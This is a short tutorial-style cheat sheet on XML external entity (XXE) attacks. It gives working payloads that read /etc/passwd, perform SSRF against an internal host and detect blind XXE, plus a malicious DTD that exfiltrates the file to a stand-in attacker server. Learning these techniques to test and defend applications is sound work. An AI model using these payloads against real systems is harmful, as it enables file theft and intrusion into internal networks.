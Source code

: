 # Exploiting XXE to retrieve files

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

# Exploiting XXE to perform SSRF attacks

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

# Detecting blind XXE using out-of-band (OAST) techniques

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

# Exploiting blind XXE to exfiltrate data out-of-band

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

This DTD carries out the following steps:

 - Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
 - Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called exfiltrate. The exfiltrate entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the file entity within the URL query string.
 - Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
 - Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver.  
For example, the attacker might serve the malicious DTD at the following URL:

```
http://web-attacker.com/malicious.dtd
```

Finally, the attacker must submit the following XXE payload to the vulnerable application:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```
This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD.  
This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline.  
The steps defined within the malicious DTD are then executed, and the /etc/passwd file is transmitted to the attacker's server.
